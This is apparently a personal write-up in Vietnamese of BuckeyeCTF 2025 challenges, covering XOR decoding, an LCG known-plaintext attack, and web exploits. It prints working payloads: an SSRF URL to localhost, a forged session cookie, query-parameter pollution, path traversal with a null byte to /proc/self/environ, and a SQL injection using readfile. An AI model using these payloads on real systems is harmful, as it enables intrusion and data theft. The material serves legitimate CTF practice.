# BuckeyeCTF2025 
Writeup của tôi cho giải này, có những câu tôi chưa làm ra nhưng vẫn sẽ tổng hợp lại, mục đích tham khảo và luyện tập.



# I. Beginner
## 1. 1985



Bài cho chúng ta 1 file email.txt có nội dung như sau : 
```
Hey man, I wrote you that flag printer you asked for:

begin 755 FLGPRNTR.COM
MOAP!@#PD=`:`-"I&Z_6Z'`&T"<TAP[1,,,#-(4A)7DQ1;AM.=5,:7W5_61EU
;:T1U&4=?1AY>&EAU95AU3AE)&D=:&T9O6%<D
`
end
```
Sau khi tra cứu và tìm hiểu thì tôi biết rằng nó đang bị mã hoá kiểu uuencode của FLGPRNTR.COM

Tiến hành decode, ta có file `FLGPRNTR.COM`
```
┌──(hieesu19㉿DESKTOP-BFB0MA5)-[/mnt/d/CTF/BuckeyeCTF/temp]
└─$ uudecode email.txt

┌──(hieesu19㉿DESKTOP-BFB0MA5)-[/mnt/d/CTF/BuckeyeCTF/temp]
└─$ ls
email.txt  FLGPRNTR.COM
```

File .COM là 1 định dạng cơ bản của DOS, bản chất là 1 raw binary, tôi tiến hành disassemble nó

```x86asm
└─$ ndisasm FLGPRNTR.COM
00000000  BE1C01            mov si,0x11c
00000003  803C24            cmp byte [si],0x24
00000006  7406              jz 0xe
00000008  80342A            xor byte [si],0x2a
0000000B  46                inc si
0000000C  EBF5              jmp short 0x3
0000000E  BA1C01            mov dx,0x11c
00000011  B409              mov ah,0x9
00000013  CD21              int 0x21
00000015  C3                ret
00000016  B44C              mov ah,0x4c
00000018  30C0              xor al,al
0000001A  CD21              int 0x21
0000001C  48                dec ax
0000001D  49                dec cx
0000001E  5E                pop si
0000001F  4C                dec sp
00000020  51                push cx
00000021  6E                outsb
00000022  1B4E75            sbb cx,[bp+0x75]
00000025  53                push bx
00000026  1A5F75            sbb bl,[bx+0x75]
00000029  7F59              jg 0x84
0000002B  19756B            sbb [di+0x6b],si
0000002E  44                inc sp
0000002F  7519              jnz 0x4a
00000031  47                inc di
00000032  5F                pop di
00000033  46                inc si
00000034  1E                push ds
00000035  5E                pop si
00000036  1A5875            sbb bl,[bx+si+0x75]
00000039  6558              gs pop ax
0000003B  754E              jnz 0x8b
0000003D  19491A            sbb [bx+di+0x1a],cx
00000040  47                inc di
00000041  5A                pop dx
00000042  1B466F            sbb ax,[bp+0x6f]
00000045  58                pop ax
00000046  57                push di
00000047  24                db 0x24
```

Phân tích nhanh thì chương trình chính chỉ đến địa chỉ 0x00000015 là quan trọng, nó thực hiện 1 cái loop, lấy từng byte, bắt đầu từ địa chỉ 0x0000001C rồi `xor` lần lượt với `0x2a`.  

NOTE : Lý do nó lấy các byte từ 0x1C là vì ta thấy câu lệnh này `mov si,0x11c`, mà DOS luôn nạp file .COM vào địa chỉ CS:IP = 0100h, vùng [0000h–00FFh] dùng cho PSP (Program Segment Prefix), ta trừ đi là ra

Code solve : 
```python
encode = [0x48, 0x49, 0x5E, 0x4C, 0x51, 0x6E, 0x1B, 0x4E, 0x75, 0x53, 0x1A, 0x5F, 0x75, 0x7F, 0x59, 0x19, 0x75, 0x6B, 0x44, 0x75, 0x19, 0x47, 0x5F, 0x46, 0x1E, 0x5E, 0x1A, 0x58, 0x75, 0x65, 0x58, 0x75, 0x4E, 0x19, 0x49, 0x1A, 0x47, 0x5A, 0x1B, 0x46, 0x6F, 0x58, 0x57, 0x24]
flag = "" 
for i in range(len(encode)):
    flag += chr(encode[i] ^ 0x2a)
    
print(flag)
```
`FLag : bctf{D1d_y0u_Us3_An_3mul4t0r_Or_d3c0mp1lEr} `


## 2. Augury


Bài cho 1 file main.py, trước đó tôi sẽ thử netcat vào để xem chương trình ra sao phát
```
└─$ ncat --ssl augury.challs.pwnoh.io 1337
Welcome to Augury
The best place for secure storage!
Please select an option:
1. Upload File
2. View Files
3. Exit
```

Phân tích nhanh chương trình và source code : 
- Phần UPLOAD FILE chỉ đơn giản là mô phỏng lại quá trình nội dung file bị mã hoá và lưu trữ để ta có thể truy cập bằng VIEW FILES. ( yêu cầu nhập name, password, content )
- khi ta netcat vào, chọn VIEW FILES thì nó chứa 1 tên file là secret_pic.png và dữ liệu bị mã hoá của file .png đó 
- khi ta nhập `content` dạng hex của file thì nó sẽ được chuyển thành 1 mảng byte 
- sau đó nó sinh seed từ `password` bằng cách sử dụng SHAKE128 đối với `password` rồi lấy 4 bytes đầu của output, seed là 32-bit, big-endian
- sau đó sinh keystream bằng công thức cập nhật :
```python
  def generate_keystream(i):
    return (i * 3404970675 + 3553295105) % (2 ** 32)  # K[0] = seed
```
- Sau đó nó tách key thành 4 byte big-endian rồi XOR từng byte với mỗi 4 bytes của mảng content, XOR xong thì cập nhật lại K theo công thức trên

=> Vấn đề ở đây là seed chỉ lấy 4 byte đầu, tức 32bit nên entropy rất nhỏ , với lại ta cũng được hint từ tên file là dạng .png, mà file .png có tận 8byte đầu cố định (magic byte) nên có thể sử dụng kỹ thuật `Known-plaintext Attack` . Với cả sau khi tìm được 1 keystream rồi thì có thể tìm được cả trước và sau của nó vì Linear Congruential Generator (LCG) tuyến tính 

CODE SOLVE :
```python
import io
from typing import Optional
from IPython.display import Image, display

A = 3404970675
C = 3553295105
MASK32 = (1 << 32) - 1

def generate_keystream(i: int) -> int:
    return (i * A + C) & MASK32

def u32_from_bytes_be(b: bytes) -> int:
    return int.from_bytes(b, byteorder="big")

def u32_to_bytes_be(x: int) -> bytes:
    return x.to_bytes(4, byteorder="big")

def decrypt_with_seed(cipher: bytes, seed: int) -> bytes:
    out = bytearray(cipher)
    K = seed
    for i in range(0, len(out), 4):
        key = u32_to_bytes_be(K)
        out[i + 0] ^= key[0]
        if i + 1 >= len(out):
            break
        out[i + 1] ^= key[1]
        if i + 2 >= len(out):
            break
        out[i + 2] ^= key[2]
        if i + 3 >= len(out):
            break
        out[i + 3] ^= key[3]
        K = generate_keystream(K)
    return bytes(out)

def recover_seed_from_png_header(cipher: bytes) -> Optional[int]:
    png_magic4 = b"\x89PNG"  
    C0 = u32_from_bytes_be(cipher[:4])
    P0 = u32_from_bytes_be(png_magic4)
    K0 = C0 ^ P0
    return K0 & MASK32

def solve_and_show(contents_hex: str, write_file: bool = True):
    cipher = bytes.fromhex(contents_hex.strip())
    seed = recover_seed_from_png_header(cipher)
    print(f"[+] Recovered seed (K0) = 0x{seed:08x}")
    plain = decrypt_with_seed(cipher, seed)
    if write_file:
        outname = "decrypted.png"
        with open(outname, "wb") as f:
            f.write(plain)
        print(f"[+] Wrote decrypted file to {outname}")
        
if __name__ == "__main__":
    contents = ""  # phần này bạn paste string hex mã hoá vào là xong, nó dài quá
    solve_and_show(contents)
    
```


`Flag: bctf{pr3d1c7_7h47_k3y57r34m}`

## 3. Cosmonaut


Bài cho ta 1 file .COM, cho vào DiE cũng không có gì lắm. 
Tôi mở VM lên chạy thử file thì được kết quả như sau :
```
└─$ ./cosmonaut.com
Cosmonauts run their programs everywhere and all at once.
Like on Windows!
c05m0p0l174n_c0nn353ur_
```
Có thể thấy kia là 1 phần của flag, và dựa theo gợi ý của bài nữa thì có vẻ là flag nằm rải rác ở đâu đó và ta cầm ghép chúng lại

Tôi vứt vào trong IDA và xem qua chương trình bao quát, sau đó search string thì thấy 


Nó trùng với cả chuỗi khi in ra khi chạy chương trình nên tôi xem xref của nó 

Sau đó tôi tìm ra luồng này, tôi đặt breakpoint ở đầu hàm và debug thử thì thấy nó chạy theo đường màu xanh tôi đã vẽ


Tôi tiến hành debug thêm 2 lần nữa và thay đổi luồng chương trình để nó chạy vào các nhánh có các strings như `Like on Linux!` và `Like on FreeBSD!` 






Ghép các flag lại với nhau ta được 

`Flag : bctf{4_7ru3_c05m0p0l174n_c0nn353ur_kn0w5_n0_b0und5}`

## 4. ebg13


V znqr na ncc gung yrgf lbh ivrj gur ebg13 irefvba bs nal jrofvgr! ==> I made an app that lets you view the rot13 version of any website!

Bài cho 1 file zip. Unzip ra và đọc code để hiểu mã nguồn

Ta tập trung phân tích file server.js thì thấy vài thứ quan trọng như sau : 
```js
fastify.get('/ebj13', async (req, reply) => {
  const { url } = req.query;

  if (!url) {
    return reply.status(400).send('Missing ?url parameter');
  }

  try {
    const res = await fetch(url);
    const html = await res.text();

    const $ = cheerio.load(html);
    rot13TextNodes($, $.root());

    const modifiedHtml = $.html();

    reply.type('text/html').send(modifiedHtml);
  } catch (err) {
    reply.status(500).send(`Error fetching URL`);
  }
});
```
- /ebj13 làm tham số truy vấn, dùng để truy xuất url được cung cấp, nếu thiếu thì trả về 400
- Sau đó nó gửi request đến url được truyền vào, hoạt động giống 1 proxy => có thể thấy đây là gợi ý cho kiểu khai thác SSRF, truy cập các địa chỉ nội bộ


```js
fastify.get('/admin', async (req, reply) => {
    if (req.ip === "127.0.0.1" || req.ip === "::1" || req.ip === "::ffff:127.0.0.1") {
      return reply.type('text/html').send(`Hello self! The flag is ${FLAG}.`)
    }

    return reply.type('text/html').send(`Hello ${req.ip}, I won't give you the flag!`)
})
```
- Đoạn này hiểu đơn giản là nếu có request gọi đến endpoint /admin thì nó sẽ lấy req.ip, và nếu là localhost thì sẽ trả FLAG 
- Ngược lại thì không trả FLAG

```js
fastify.listen({ port: 3000, host: '0.0.0.0' }, (err, address) => {
  if (err) throw err;
  console.log(`Server running at ${address}`);
});
```
- Đoạn này cho ta biết rằng server đang lắng nghe các interface của máy ở port 3000

=> Ta đã có đầy đủ dữ kiện để tạo SSRF payload, ta sẽ bắt server gọi lại endpoint /admin  của chính nó qua port 3000 bằng : `https://ebg13.challs.pwnoh.io/ebj13?url=http://127.0.0.1:3000/admin`


Response : Uryyb frys! Gur synt vf opgs{jung_unccraf_vs_v_hfr_guvf_jrofvgr_ba_vgfrys}.
=> Hello self! The flag is bctf{what_happens_if_i_use_this_website_on_itself}.

`FLAG : bctf{what_happens_if_i_use_this_website_on_itself}`


## 5. Mind Boggle


Bài này khá easy, nó cho ta 1 file .txt nội dung như sau : 
```
-[----->+<]>++.++++.---.[->++++++<]>.[---->+++<]>+.-[--->++++<]>+.>-[----->+<]>.---.+++++.++++++++++++.-----------.[->++++++<]>+.--------------.---.-.---.++++++.---.+++.+++++++++++.-------------.++.+..-.----.++...-[--->++++<]>+.-[------>+<]>..--.-[--->++++<]>+.>-[----->+<]>.---.++++++.+..++++++++++.------------.+++.-----.-.+++++..----.---.++++++.-..++.--.+.-.--.+++.---..--.++.++++++.----..+.---.+++.+++++++++++.-------------.++.+..-.----.++...-[--->++++<]>+.-[------>+<]>...--..+++.-.++.----.++.-.+++.-----.---.+++++.+.+.--..++++.------..+.+++++++++++++.>-[----->+<]>.++...-.++++.---.----.++++++.+.----.-[--->++++<]>.[---->+++<]>+.+.--.++.--.++++++.
# Brainfuck


596D4E305A6E7430636A467762444E664E30677A583277306557565363313955636A467762444E66644768465830567559334A35554851784D453539
# Hex


YmN0Znt0cjFwbDNfN0gzX2w0eWVSc19UcjFwbDNfdGhFX0VuY3J5UHQxME59
# Base64

bctf{tr1pl3_7H3_l4yeRs_Tr1pl3_thE_EncryPt10N}
```


`FLAG : bctf{tr1pl3_7H3_l4yeRs_Tr1pl3_thE_EncryPt10N}`


## 6. Ramesses



Lại là 1 bài web, ta đọc source code tiếp nhé ae :()

```python

@app.route("/", methods=["GET", "POST"])
def home():
    if request.method == "POST":
        name = request.form.get("name", "")
        cookie_data = {"name": name, "is_pharaoh": False}
        encoded = base64.b64encode(json.dumps(cookie_data).encode()).decode()

        response = make_response(redirect(url_for("tomb")))
        response.set_cookie("session", encoded)
        return response

    return render_template("index.html")


@app.route("/tomb")
def tomb():
    session_cookie = request.cookies.get("session")
    if not session_cookie:
        return redirect(url_for("home"))
    try:
        user = json.loads(base64.b64decode(session_cookie).decode())
    except Exception:
        return redirect(url_for("home"))
    return render_template("tomb.html", user=user, flag=flag)
```
Đoạn code này trong file `main.py`. Tóm lại là khi người dùng gửi form (POST /), server lấy tên nhập vào, tạo dict `{"name": name, "is_pharaoh": False}`, rồi mã hóa JSON đó bằng base64 và lưu vào cookie session. 

Sau đó server redirect sang /tomb.
Khi truy cập /tomb, server đọc cookie session, giải mã base64 và parse JSON thành biến user. Nếu cookie không tồn tại hoặc lỗi, nó quay lại /.


```html
    
    <h1>Pharaoh {{ user.name }}</h1>
    <p>
        What a happy day! Heaven and earth rejoice, for thou art the great
        lord of Egypt.
    </p>
    <p>All lands say unto him: The flag is {{ flag }}</p>
    
    <h1>{{ user.name }}</h1>
    <p>
        Cursed art thou for a thousand generations, for thou hast entered the
        tomb of Pharaoh unworthily!
    </p>
    
```

Còn đây ở tomb.html, ta có thể thấy logic ở đây rằng nó đang check `` , nếu trả về `true` thì render ra flag, còn không thì nhịn.

Ta encode base64 `{"name": "123", "is_pharaoh": true}` -> `eyJuYW1lIjogIjEyMyIsICJpc19waGFyYW9oIjogdHJ1ZX0=`

Rồi login vào, sửa session và reload



`FLAG = bctf{s0_17_w45_wr177en_50_1t_w45_d0n3}`


## 7. The Professor's Files


Đổi extention .docx thành .zip rồi unzip ra

```
┌──(hieesu19㉿DESKTOP-BFB0MA5)-[/mnt/d/CTF/BuckeyeCTF/temp]
└─$ ls
OSU_Ethics_Report  OSU_Ethics_Report.zip

┌──(hieesu19㉿DESKTOP-BFB0MA5)-[/mnt/d/CTF/BuckeyeCTF/temp]
└─$  find ./OSU_Ethics_Report/ -type f -exec strings {} \; | grep -i bctf
      <!-- bctf{docx_is_zip} -->
```

`FLAG : bctf{docx_is_zip}`


# II. Web
## 1. Big Chungus


Nhìn qua chall thì thấy nó đang yêu cầu 1 username, sau đó check 1 cái gì đó rồi trả về kết quả. Ta sẽ xem qua mã nguồn mà đề bài cho.

Ta sẽ phân tích kỹ tệp index.js , thấy một vài điểm cần lưu ý như sau : 
```js
app.get("/", (req, res) => {
  if (!req.query.username) {
    res.send(' 1 đoạn html trả về NO CHUNGUS FOUND ');
    return;
  }
```
- Nếu thiếu tham số thì sẽ trả về như trên


```js
if (req.query.username.length > 0xB16_C4A6A5) {
    res.send(" Đoạn này chứa flag");
    return;
  }

res.send(" Đoạn này in ra little chungus - so very sad);
});
```
- Khi có username, nó sẽ check length xem > `0xB16_C4A6A5` không, có thì in FLAG, không thì nhịn

Khi xem kỹ mã nguồn thì biết  nó được viết dựa trên Node.js và sử dụng Express framework, thì `qs` là một package npm chuyên parse/serialize query string, nó cho phép cú pháp `username[length]=123` parse thành `req.query.username = { length: '123' }` 

Tức là 1 object có thuộc tính length, do đó `req.query.username.length` có thể trả string hoặc number tùy giá trị, và khi so sánh > JS sẽ ép kiểu (ToNumber)


Ta thay `https://big-chungus.challs.pwnoh.io/?username=hieesu19` thành `https://big-chungus.challs.pwnoh.io/?username[length]=3636363636363636` 




`FLAG: bctf{b16_chun6u5_w45_n3v3r_7h15_b16}`


## 2. Awklet


Bài vẫn cho ta mã nguồn, xem qua web chall thì thấy rằng khi ta nhập string vào thì nó sẽ Gen ra ASCII Art theo các Font tuỳ chọn.

```js
function load_font(font_name, font,    filename, line, char, row, c) {
    filename = font_name ".txt"
    char = 32
    row = 0

    while ((getline line < filename) > 0) {
        font[char, row] = line
        row++

        if (row == HEIGHT) {
            char++
            row = 0
        }
    }

    close(filename)
}
```
- Đọc code này thì ta hiểu rằng nó sẽ lấy `font_name` rồi nối chuỗi `".txt"` vào và mở file bằng `getline < filename`
- Tiếp tục xem thêm trong Dockerfile, ta biết môi trường cũng truyền 1 biến đến Apache, có thể truy cập thông qua /proc/self/environ
- Vậy sẽ ra sao nếu ta sử dụng Path Travesal , để GET thử /proc/self/environ ? 

`https://awklet.challs.pwnoh.io/cgi-bin/awklet.awk?name=x&font=../../../../proc/self/environ`

Nếu như này thì nó sẽ nối .txt vào cuối environ -> environ.txt 

Ta cần thêm NULL vào cuối url để nó két thúc tên tệp

`https://awklet.challs.pwnoh.io/cgi-bin/awklet.awk?name=x&font=../../../../proc/self/environ%00`

Tải về và strings ra ta thấy 
```
Here's your ../../../../proc/self/environ
 ascii art:
FLAG=bctf{n3xt_t1m3_1m_wr171ng_1t_1n_53d}
HTTP_HOST=awklet.challs.pwnoh.io
HTTP_USER_AGENT=Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
HTTP_ACCEPT=text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
....
```

`FLAG : bctf{n3xt_t1m3_1m_wr171ng_1t_1n_53d}`


## 3. Packages


Bài này nghịch qua thì hiẻu là nó đang cho ta gọi các truy vấn để lấy thông tin từ distro và package trong database.

Nhìn khá là mùi của SQLi
```python
@app.route("/", methods=["GET"])
def index():
    distro = request.args.get("distro", "").strip().lower()
    package = request.args.get("package", "").strip().lower()

    sql = "SELECT distro, distro_version, package, package_version FROM packages"
    if distro or package:
        sql += " WHERE "
    if distro:
        sql += f"LOWER(distro) = {json.dumps(distro)}"
    if distro and package:
        sql += " AND "
    if package:
        sql += f"LOWER(package) = {json.dumps(package)}"
    sql += " ORDER BY distro, distro_version, package"

    print(sql)
    results = db.execute(sql).fetchall()

    return render_template_string(TEMPLATE, request=request, results=results)
```

Phân tích mã nguồn ta có 1 vài thứ quan trọng sau : 
- seed.sql : tạo bảng sqlite và thêm các package data vào
- main.py : XỬ lý chính, thiết lập 1 máy chủ web đơn giản, Tệp cơ sở dữ liệu là packages.db, chứa bảng packages với 4 cột: distro, distro_version, package, package_version. Lấy giá trị distro và package từ query string để xây dựng query SQL. Đjăc biệt là nó sử dụng json.dumps() sai mục đích

GPT chút cho dễ hiểu nhes


Ý tưởng : 
- Vì ghép chuỗi trực tiếp, ta có thể thoát khỏi literal và nối thêm UNION SELECT lấy dữ liệu tùy ý
- SQLite có hàm readfile() (đã được bật trong môi trường chall) nên ta có thể đọc file
- Cần tạo một payload sao cho phần SQL cuối cùng có dạng : `WHERE LOWER(distro) = "SOMETHING" UNION SELECT 's','0','flag',readfile('/app/flag.txt') -- " ORDER BY ...`

=>> `" UNION SELECT 's','0','flag',readfile('/app/flag.txt') --`

Tại sao nó hoạt động?
- Query gốc trả 4 cột: SELECT distro, distro_version, package, package_version FROM packages
- Ứng dụng ghép trực tiếp giá trị distro bằng json.dumps (dấu ngoặc kép), nên ta có thể đóng literal bằng một dấu " trong input rồi nối thêm SQL 
- Payload bắt đầu bằng " (đóng chuỗi hiện tại), tiếp UNION SELECT 's','0','flag',readfile('/app/flag.txt') — trả 4 giá trị tương ứng 4 cột 
- -- comment phần còn lại (ORDER BY ...) để tránh lỗi cú pháp 
